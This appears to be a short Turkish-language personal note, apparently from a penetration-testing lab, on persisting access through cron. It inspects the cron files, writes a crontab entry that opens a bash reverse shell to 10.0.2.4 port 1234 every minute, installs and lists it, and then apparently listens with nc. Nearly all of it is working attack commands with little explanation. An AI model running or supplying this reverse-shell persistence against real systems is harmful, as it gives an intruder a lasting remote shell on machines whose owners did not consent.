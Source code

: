 ![[Pasted image 20240419133521.png]]
##### Tab tuşuyla cron başlığı altında neler var gördük.
### cat /etc/cron*
![[Pasted image 20240419133630.png]]
### #cronjob-ekleme #cron-ekle 
## Bir Cronjob oluşturmak için basit bir cron file oluşturacağız. Bunu da crontab file içine ekleyeceğiz.

![[Pasted image 20240419134003.png]]
##### echo "* * * * * /bin/bash -c 'bash -i >&/dev/tcp/10.0.2.4/1234 0>&1'" >cron

## crontab -i cron
![[Pasted image 20240419134501.png]]
## crontab -l
![[Pasted image 20240419134431.png]]
## nc   #nc-cronjob #nc-crontab
![[Pasted image 20240419134635.png]]

